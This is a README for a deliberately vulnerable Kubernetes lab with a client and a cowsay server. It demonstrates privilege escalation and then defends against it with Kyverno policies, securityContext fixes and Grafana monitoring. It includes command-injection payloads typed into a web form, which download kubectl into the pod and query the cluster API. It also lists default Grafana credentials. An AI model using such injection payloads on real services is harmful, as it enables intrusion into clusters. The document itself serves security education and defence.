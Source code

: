 <div align="center">
  <img src="https://github.com/GridexX/vulnerable-web-stack-kube/assets/50552672/990b9e90-7446-4c4f-b9ad-4fe1225d21fd" width="300">
  <h1>
    Vulnerable Web Stack Kube
  </h1>
  <h4>How missconfigured services inside Kubernetes can lead to privilegies escalation</h4>
  <p align="center">
    <a href="https://github.com/GridexX/vulnerable-web-stack-kube"><img src="https://img.shields.io/github/stars/GridexX/vulnerable-web-stack-kube.svg?style=flat" alt="stars"></a>
    <a href="https://github.com/GridexX/vulnerable-web-stack-kube"><img src="https://img.shields.io/github/license/GridexX/vulnerable-web-stack-kube.svg?style=flat" alt="license"></a>
  </p>
</div>



There are two services in this repository, a client and a server. The client is a simple web application that send a message to the server. The server is a simple web application that receive a message and display it in the console with the cowsay command.

## How to use it ❓

```bash
cd vulnerable-web-stack-kube
kubectl apply -f ./k8s/resources
# Port-forward the client and server application
kubectl port-forward client-deployment-ip-service 8080:80
kubectl port-forward server-deployment-ip-service 3000:8000
```

### Try the vulnerability 🥷

Open your browser and go to [http://localhost:8080](http://localhost:8080). You will see a form with a text area. Write a message and click on the send button. You will see the message displayed in the console of the server pod.

Copy and paste the following text into the text area:

```bash
hello; curl -LO https://dl.k8s.io/release/$(curl -Ls https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl; chmod +x ./kubectl
```

This will download kubectl inside the pod and give us the possibility to execute command inside the pod

```bash
hello; ./kubectl get pods
```

We can see that the command is executed inside the pod and that we can reach the kube API

### Protect the cluster with kyverno 🏰

To protect the cluster we will use kyverno. Kyverno is a policy engine for Kubernetes. It allows us to define policies that will be applied to the cluster.
We will also display the policy violations in a grafana dashboard.
To do so, we will deploy the kube-prometheus-stack chart and kyverno with Helm:

```bash
# Install the Helm repository
cd ./vulnerable-web-stack-kube
helm repo add kyverno https://kyverno.github.io/kyverno/
helm repo add prometheus-community https://prometheus-community.github.io/helm-charts
helrm repo update
helm install kyverno kyverno/kyverno -f k8s/values/kyverno-values.yaml -n kyverno --create-namespace
helm install prom-stack prometheus-community/kube-prometheus-stack -f k8s/values/prom-stack-values.yaml
# Port-forward the grafana dashboard
kubectl port-forward -n prom-stack-grafana-uuid 3001:3000

# Fix the policy violation
# Remove the resources
kubectl delete -f ./k8s/resources
# Apply the policies
kubectl apply -f ./k8s/policies
```

Now if we re-deploy the resources, we will se that the server pod is not created.

To fix the policy violation, we added `securityContext` fields in the deployment manifest of the server.
With this fixed manifest, the server pod will be created. Apply the fixed manifest with:

```yaml
# Reapply the fixed resources policies
kubectl apply -f ./k8s/resources_fixed
```

Restart the port-forwarding of the server pod and try again the vulnerability. You will see that the command is not executed inside the pod :cwhite_check_mark:

#### See the policy violations in the grafana dashboard 📊

Go to [http://localhost:3001](http://localhost:3001) and login with the default credentials (admin:prom-operator).
You will see the dashboard with the policy violations.

### Sign and build the docker images ✍️

This step describes how to build and sign the docker images.

1. The server

    ```bash
    cd ./services/server
    docker build -t <your-docker-hub-username>/vulnerable-web-stack-kube-server:latest .
    docker trust sign <your-docker-hub-username>/vulnerable-web-stack-kube-server:latest
    ```

2. The client

    ```bash
    cd ./services/client
    docker build -t <your-docker-hub-username>/vulnerable-web-stack-kube-client:latest .
    docker trust sign <your-docker-hub-username>/vulnerable-web-stack-kube-client:latest
    ```

## Clean the cluster 🗑️

```bash
kubectl delete -f ./k8s/policies
kubectl delete -f ./k8s/resources
```

### Licence

This project is licensed under the MIT License - see the LICENSE file for details. 

### Author 👨‍💻

Developped in the ☁️ with 🔒 by [GridexX](https://github.com/GridexX)
